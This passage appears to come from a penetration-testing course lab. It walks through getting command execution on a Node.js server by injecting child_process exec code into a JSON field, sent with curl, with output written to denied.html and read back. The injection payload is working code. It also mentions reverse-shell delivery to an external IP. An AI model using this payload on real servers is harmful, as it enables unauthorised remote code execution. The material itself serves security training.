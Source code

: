 We have finally gained control over the `NodeJS` server, and now have a full interactive reverse shell on it.

* * *

## Remote Code Execution

Now that we have tested everything, and prepared a command that would give us a shell on the `server.js` NodeJS script, all that is left is to try it on the remote server. In normal cases, we would be able to use the same Reverse Shell command from above. Simply swap out `http://127.0.0.1:21440/` with the `http://SERVER_IP:PORT/`, and swap `127.0.0.1 1234` with our external IP `10.X.X.X 1234`, and then send the command, and we would receive a reverse shell on our system.

However, in this case, we still have one more trick to learn, because in our exercise, you will not be able to open any additional ports, `since it is behind a strict firewall`. So, we will instead execute a command, and direct its output into a file we can read (i.e. ` > ./denied.html`), since we know it is in the same directory from the source code. This will enable us to execute commands and get their outputs, even behind a firewall.

Tip: To avoid noise, it would be wise you create a backup copy of \`denied.html\`, and then restore it to its original state once we are done.

We can now send our command using our `curl` command, as follows:

```shell
curl http://SERVER_IP:PORT/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"ls -la > ./denied.html\"); //"}'

```

Now we can simply curl this page in order to get the output (by default we should get `denied.html` in `/admin`):

```shell
curl -s http://SERVER_IP:PORT/admin

total 40
drwxr-xr-x 1 user user  4096 XXX xx xx:xx .
drwxr-xr-x 1 root     root      4096 XXX xx xx:xx ..
-rw-r--r-- 1 user user  1026 XXX xx xx:xx admin.html
-rw-r--r-- 1 user user     0 XXX xx xx:xx denied.html
-rw-r--r-- 1 user user 10918 XXX xx xx:xx index.html
-rw-r--r-- 1 user user  1656 XXX xx xx:xx server.js
-rw-r--r-- 1 user user  2293 XXX xx xx:xx validateKey.js

```

Great! We now have a way to execute commands and get their output, hence gaining full control over a remote server.


# Skills Assessment

* * *
